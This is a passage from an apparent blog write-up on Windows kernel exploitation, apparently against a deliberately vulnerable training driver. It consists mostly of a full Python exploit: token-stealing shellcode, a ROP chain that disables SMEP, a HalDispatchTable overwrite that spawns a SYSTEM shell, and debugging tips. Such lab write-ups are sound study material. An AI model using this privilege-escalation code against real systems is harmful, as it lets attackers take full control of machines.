        b"\x48\x8b\x80\xb8\x00\x00\x00"      # mov    rax,QWORD PTR [rax+0xb8]
        b"\x48\x89\xc3"                      # mov    rbx,rax
        b"\x48\x8b\x9b\x48\x04\x00\x00"      # mov    rbx,QWORD PTR [rbx+0x448]
        b"\x48\x81\xeb\x48\x04\x00\x00"      # sub    rbx,0x448
        b"\x48\x8b\x8b\x40\x04\x00\x00"      # mov    rcx,QWORD PTR [rbx+0x440]
        b"\x48\x83\xf9\x04"                  # cmp    rcx,0x4
        b"\x75\xe5"                          # jne    13 <_loop>
        b"\x48\x8b\x8b\xb8\x04\x00\x00"      # mov    rcx,QWORD PTR [rbx+0x4b8]
        b"\x80\xe1\xf0"                      # and    cl,0xf0
        b"\x48\x89\x88\xb8\x04\x00\x00"      # mov    QWORD PTR [rax+0x4b8],rcx
        b"\x48\x89\xec"                      # mov    rsp,rbp
        b"\x48\x81\xec\x18\x01\x00\x00"      # sub    rsp,0x118
        b"\x48\x31\xc0"                      # xor    rax,rax
        b"\xc3"                              # ret
    )

    windll.kernel32.VirtualAlloc.restype = c_void_p
    shellcode_buff = windll.kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

    if shellcode_buff == 0:
        printf('Failed to allocate buffer for shellcode')
        return -1

    tmp_c_buffer = (c_char * len(shellcode)).from_buffer(shellcode)

    windll.kernel32.RtlMoveMemory.argtypes = [c_void_p, c_void_p, c_ulong]
    windll.kernel32.RtlMoveMemory(shellcode_buff, tmp_c_buffer, len(shellcode))

    fake_stack = bytearray(struct.pack('<Q', g_pop_rcx_addr))
    fake_stack += struct.pack('<Q', cr4_smep_disabled)
    fake_stack += struct.pack('<Q', g_mov_cr4_rcx_addr)
    fake_stack += struct.pack('<Q', shellcode_buff)

    buffer = windll.kernel32.VirtualAlloc(0x00ffffff, FAKE_STACK_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
    
    if buffer == 0:
        print('Failed to allocate fake stack buffer')
        return -1

    # The fake stack will be actually in the middle of the big chunk we allocated
    fake_stack_ptr = buffer + int(FAKE_STACK_SIZE / 2)

    if fake_stack_ptr > 0xffffffff:
        print('Fake stack pointer is larger than 2^32')
        return -1

    # The following lines will just move the values in the fake_stack variable to the actual fake stack we allocated with VirtualAlloc
    tmp_c_buffer = (c_char * len(fake_stack)).from_buffer(fake_stack)
    windll.kernel32.RtlMoveMemory(fake_stack_ptr, tmp_c_buffer, len(fake_stack))

    return fake_stack_ptr


# Exploit the vulnerability to read from arbitrary addresses
def read(where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong()
    www.What = c_ulonglong(where)
    www.Where = addressof(tmp)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)

    return tmp.value


# Exploit the vulnerability to write into arbitrary addresses
def write(what: int, where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
        ]

    www = WRITE_WHAT_WHERE()
    tmp = c_ulonglong(what)
    www.What = addressof(tmp)
    www.Where = c_ulonglong(where)

    do_ioctl(device_handle, pointer(www))
    windll.kernel32.CloseHandle(device_handle)


def main():
    initialize_globals()
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1

    hal_dispatch_table_addr = get_kernel_symbol_addr(b'HalDispatchTable')

    if hal_dispatch_table_addr in [0, -1]:
        print('Error while getting address to HalDispatchTable')
        return 1
    
    backup_function_pointer = read(hal_dispatch_table_addr + 0x8)
    fake_stack_ptr = get_fake_stack_addr()
    write(g_stack_pivot, hal_dispatch_table_addr + 0x8)
    windll.ntdll.NtQueryIntervalProfile(0x1234, fake_stack_ptr)
    write(backup_function_pointer, hal_dispatch_table_addr + 0x8)

    subprocess.Popen('start cmd', shell=True)
    return 0

if __name__ == '__main__':
    ret = main()
    sys.exit(ret)
```

And the exploit running in the screenshot below:




### Final advices

While developing this exploit and debugging the kernel with WinDBG, some problems appeared. I would like to mention two of them:

- The first one was the Double Fault, which I already briefly mentioned why happens and how to work around. 
- The second one was the `IRQL_NOT_LESS_OR_EQUAL`. While debugging with WinDBG, right after executing the instruction `mov esp, ebx` (our stack pivoting gadget), the kernel raises an `IRQL_NOT_LESS_OR_EQUAL` exception. [This guy](https://github.com/TakahiroHaruyama/py3_hevd_exploits) had this problem too. It took me some time to figure out that this exception occurs only when I'm debugging step-by-step. If I dont look so close, the payload works fine. So here is my advice: if you are having this same problema, try ignoring this exception. Assume that your stack pivot will work flawlessly. Put your gadget chain in your fake stack and put an INT 3 (0xcc) instruction in your shellcode. Then run your exploit with the debugger attached, but without putting any breakpoints. In my case, I could verify that the exploit is working, since when the int 3 instruction is reached in my shellcode, the debugger stopped.


Just one more thing. While debugging the execution of `NtQueryIntervalProfile`, I've seen that the calls to the function pointer in `HalDispatchTable + 0x8` are made by `guard_dispatch_icall`, which is an evidence that this kernel was compiled with kCFG. [This article from CrowdStrike](https://www.crowdstrike.com/blog/state-of-exploit-development-part-1/) states that "*[...] in order for kCFG to be enabled, VBS (Virtualization Based Security) needs to be enabled*". This other article also states that "*VBS is responsible for enabling HVCI and is enabled by default on compatible hardware after Windows 10 1903 (19H1) on “Secured Core” systems. It can also be turned on by default on Windows 10 2003 (20H1) systems for vendors that opt-in through system configuration, and if the hardware is modern enough to conform to Microsoft’s “Security Level 3” baseline.*". So I guess VBS was not enabled in my system, preventing `guard_dispatch_icall` to raise an exception.


I hope you could learn something with this blogpost. See you in the next one. Thanks for reading.
